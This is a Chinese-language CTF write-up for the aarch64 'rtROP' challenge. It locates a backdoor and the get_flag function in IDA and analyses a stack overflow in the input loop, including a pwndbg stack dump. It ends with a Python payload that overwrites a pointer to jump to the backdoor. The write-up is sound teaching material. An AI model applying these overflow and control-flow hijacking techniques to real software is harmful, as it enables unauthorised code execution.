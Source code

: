 # rtROP

## 关键函数的定位

根据 qemu 命令可知是 aarch64 架构，在 IDA64 中打开，选择 ARM 架构，并选择 64 位程序

在 `qemu-run.sh` 的末尾增加 `-gdb tcp::12345`，运行后在 IDA 中选择 Remote GDB debugger 对代码进行调试

调试后可以记住一些特殊字节（例如字符串）的地址，来算出基地址，并使用 `Edit -> segments -> rebase program` 功能更改基地址

设置好正确的基地址后，即可通过 `Edit -> Select all` 后右键选择 `Edit -> Code` 功能进行自动分析

在字符串中可以看到

```
ROM:00000000400CEE22 00 00 00 00 00 00             DCW 0, 0, 0
ROM:00000000400CEE28 42 55 41 41 43 54 46 7B 78 78+aBuaactfXxxxxxx DCB "BUAACTF{xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx}",0xA,0
ROM:00000000400CEE28 78 78 78 78 78 78 2D 78 78 78+                                        ; DATA XREF: sub_400BAF08+8↑o
```

跳转到 `sub_400BAF08` 后发现

```c
__int64 sub_400BAF08()
{
  __int64 v0; // x0

  v0 = sub_400BC414("BUAACTF{xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx}\n");
  return sub_400AEF88(v0);
}
```

该函数为一个后门函数

此外可以根据交叉引用，找到

```
ROM:00000000400C81D0 38 05 0D 40 00 00 00 00       DCQ aGetFlag                            ; "get_flag"
ROM:00000000400C81D8 48 05 0D 40 00 00 00 00       DCQ aGetTheFlag                         ; "get the flag..."
ROM:00000000400C81E0 B0 4F 0A 40 00 00 00 00       DCQ sub_400A4FB0
```

说明 `sub_400A4FB0` 函数即为 `get_flag` 函数

> 该函数也可以通过调试的方法找到，思路为：在程序中输入 `get_flag`，并输入 `Input` 内容，但不输入回车，此时在 IDA 中搜索程序内存，可以找到自己的 `Input` 内容，此时通过下硬件断点（最好在中间的某个字节下断点）的方法找到该内存被调用的地方，并逐步跟踪

## get_flag 函数漏洞分析与利用

分析发现，函数的如下部分为获取输入内容（此处也可以结合动调分析）：

```c
  while ( 1 )
  {
    sub_4008F274(0i64, &v28, 1i64);
    *v38 = v28;
    sub_400BC414("%c", v28, v8, v9, v10, v11, v12, v13);
    if ( v28 == 10 || v28 == 13 )
      break;
    ++v38;
    ++v37;
  }
```

根据该函数内容可知，只有当输入内容为 `\n`，该函数才会停止接收数据，因此存在溢出漏洞

查看函数的栈，发现该输入内容并非位于栈底，在覆盖过程中将会影响其他变量

```c
  _BYTE v34[68]; // [xsp+108h] [xbp+108h] BYREF
  unsigned int i; // [xsp+14Ch] [xbp+14Ch]
  int v36; // [xsp+150h] [xbp+150h]
  unsigned int v37; // [xsp+154h] [xbp+154h]
  unsigned __int8 *v38; // [xsp+158h] [xbp+158h]
```

其中，`v34` 为输入开始处，因此在溢出后，将会影响 `i`，`v36`，`v37`，`v38` 四个变量，后续代码中，`i` 与 `v36` 两个变量均被重新赋值，因此实际上不存在影响，而 `v37` 与 `v38` 是输入循环中的重要变量，分别存储了输入的总长度与当前输入的位置

考虑到后续会对输入内容进行 `AES` 加密，可以通过减小总长度的方式，避免最后的 ROP 内容被加密，此外，可以通过修改 `v38` 指针的末尾字节，将输入的指针直接指向目标位置

使用 `gdb-multiarch` 动调查看栈地址

输入 `target remote 127.0.0.1:12345` 进行远程调试

在获取用户输入后的地址下断点，查看栈地址

```
pwndbg> stack 50
00:0000│ x29 sp 0x401ff940 —▸ 0x401ffaa0 —▸ 0x401ffb40 —▸ 0x401ffb70 ◂— 0x1d
01:0008│        0x401ff948 —▸ 0x400a349c ◂— mov    w1, w0 /* 0xf9400fa02a0003e1 */
02:0010│        0x401ff950 —▸ 0x401ffad8 —▸ 0x401fe92a ◂— 'get_flag'
03:0018│        0x401ff958 ◂— 0x1400e9038
04:0020│        0x401ff960 —▸ 0x401ff990 ◂— 'Input your flag: /> '
05:0028│        0x401ff968 —▸ 0xd000000400995b0 ◂— ldr    x0, [x29, #0x20] /* 0x91000400f94013a0 */
06:0030│        0x401ff970 ◂— 0xeacb8d848598bd
07:0038│        0x401ff978 ◂— 0x0
08:0040│        0x401ff980 ◂— 0xfda8bfb9aeaeb39f
09:0048│        0x401ff988 ◂— 0xdc
0a:0050│        0x401ff990 ◂— 'Input your flag: /> '
0b:0058│        0x401ff998 ◂— 'ur flag: /> '
0c:0060│        0x401ff9a0 ◂— 0x203e2f20 /* ' /> ' */
0d:0068│        0x401ff9a8 ◂— 0x1e2d0d2c06175c8
0e:0070│        0x401ff9b0 ◂— 0x4ad0ea3b4b53c9c7
0f:0078│        0x401ff9b8 ◂— movz   w17, #0x531d, lsl #16 /* 0x63b7dfd052aa63b1 */
10:0080│        0x401ff9c0 ◂— adr    x19, #0x401da891 /* 0x8dae143b30ed7693 */
11:0088│        0x401ff9c8 ◂— 0x7f38a0a369b0cdb2
12:0090│        0x401ff9d0 ◂— 0x811ffb0ff7d60ef2
13:0098│        0x401ff9d8 ◂— 0x684a8d4c82cfcb28
14:00a0│        0x401ff9e0 ◂— 0x2ffc24c6de94f309
15:00a8│        0x401ff9e8 ◂— 0x0
... ↓           11 skipped
21:0108│        0x401ffa48 ◂— 'AAAAAAAAAAAAAAAA\r'
22:0110│        0x401ffa50 ◂— 'AAAAAAAA\r'
23:0118│        0x401ffa58 ◂— 0xd /* '\r' */
24:0120│        0x401ffa60 ◂— 0x0
... ↓           4 skipped
29:0148│        0x401ffa88 ◂— 0x1500000001
2a:0150│        0x401ffa90 ◂— 0x1000000008
2b:0158│        0x401ffa98 —▸ 0x401ffa58 ◂— 0xd /* '\r' */
2c:0160│        0x401ffaa0 —▸ 0x401ffb40 —▸ 0x401ffb70 ◂— 0x1d
2d:0168│        0x401ffaa8 —▸ 0x400a3534 ◂— cmp    w0, #0 /* 0x540000617100001f */
2e:0170│        0x401ffab0 ◂— 0x0
2f:0178│        0x401ffab8 —▸ 0x401ffb64 ◂— 0x700000000
30:0180│        0x401ffac0 ◂— 0x8
31:0188│        0x401ffac8 —▸ 0x401fe92a ◂— 'get_flag'
```

结果如上，输入地址为 `0x401ffa48`

在 Arm 环境中，函数的返回地址存储在栈顶，因此在当前情况下，很难对当前函数的返回地址进行覆盖，然而，可以通过修改上一层函数的栈顶（即位于当前函数栈底）的值，控制再下一次跳转的结果

因此，可以在输入至 `0x401ffa98` 时，将该指针指向 `0x401ffaa7`，以此来控制后续的函数跳转

## Payload

根据上述思路构造的 Payload 如下：

```python
payload = b'a' * 68 + b'b' * 4 + b'c' * 4 + b'\x00' * 4 + b'\xa7' + p32(0x400baf08)
```
